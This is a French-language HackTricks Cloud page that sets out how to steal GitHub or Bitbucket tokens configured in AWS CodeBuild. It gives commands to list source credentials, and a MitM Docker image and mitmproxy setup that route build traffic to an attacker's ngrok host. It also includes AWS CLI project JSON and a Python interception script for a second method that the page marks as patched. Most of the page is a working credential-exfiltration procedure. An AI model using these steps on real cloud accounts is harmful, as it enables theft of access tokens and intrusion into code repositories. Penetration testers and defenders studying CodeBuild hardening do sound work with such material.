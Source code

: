 # AWS Codebuild - Fuite de jetons

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Récupérer les jetons configurés pour Github/Bitbucket

Tout d'abord, vérifiez s'il y a des informations d'identification source configurées que vous pourriez divulguer:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous découvrez que l'authentification, par exemple sur Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**jeton GH ou jeton OAuth**) en faisant en sorte que Codebuild **utilise une image Docker spécifique** pour exécuter la construction du projet.

Dans ce but, vous pourriez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Il s'agit d'une image Docker très basique qui définira les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créez et téléversez votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP de proxy et définir votre certificat SSL et **construisez l'image Docker**.
* **NE DÉFINISSEZ PAS `http_proxy`** pour ne pas intercepter les demandes vers le point de terminaison de métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois l'image Docker construite, **téléversez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définissez l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker précédemment générée**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Définissez le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La version de **mitmproxy utilisée était la 9.0.1**, il a été signalé qu'avec la version 10 cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécuter la construction & capturer les informations d'identification**

*   Vous pouvez voir le jeton dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné la semaine du 20 février 2023 (je pense le vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec des **permissions élevées sur un CodeBuild pourrait divulguer le token Github/Bitbucket** configuré ou si les permissions étaient configurées via OAuth, le **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Ensuite, exécuter l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port pointé par les variables de proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **informations d'identification** seront **envoyées en clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le jeton depuis sa machine, lister tous les privilèges qu'il possède et les (ab)user plus facilement que d'utiliser le service CodeBuild directement.
{% endhint %}

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
